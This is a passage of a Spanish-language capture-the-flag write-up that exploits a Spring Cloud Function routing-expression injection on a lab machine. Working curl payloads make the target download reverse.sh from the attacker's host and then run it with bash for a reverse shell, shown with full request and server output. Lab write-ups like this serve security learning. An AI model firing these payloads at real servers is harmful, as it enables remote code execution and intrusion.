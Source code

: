 Lo subimos ala maquina

```bash
❯ curl -X POST  http://10.129.178.70:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl 10.10.15.51:80/reverse.sh -o /tmp/rev")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.129.178.70:8080...
* Connected to 10.129.178.70 (10.129.178.70) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.129.178.70:8080
> User-Agent: curl/7.87.0
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl 10.10.15.51:80/reverse.sh -o /tmp/rev")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 500 
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Sun, 12 Mar 2023 00:13:27 GMT
< Connection: close
< 
* Closing connection 0
{"timestamp":"2023-03-12T00:13:27.593+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}#   
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.178.70 - - [11/Mar/2023 18:13:29] "GET /reverse.sh HTTP/1.1" 200 -
```

```bash
❯ ./lfi.sh -f /tmp

[+] Este es el contenido del archivo /tmp:

.font-unix
.ICE-unix
.Test-unix
.X11-unix
.XIM-unix
hsperfdata_frank
pwned
rev
```

Ahora vamos a ganar acceso

```bash
❯ curl -X POST  http://10.129.178.70:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/rev")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.129.178.70:8080...
* Connected to 10.129.178.70 (10.129.178.70) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.129.178.70:8080
> User-Agent: curl/7.87.0
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/rev")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
```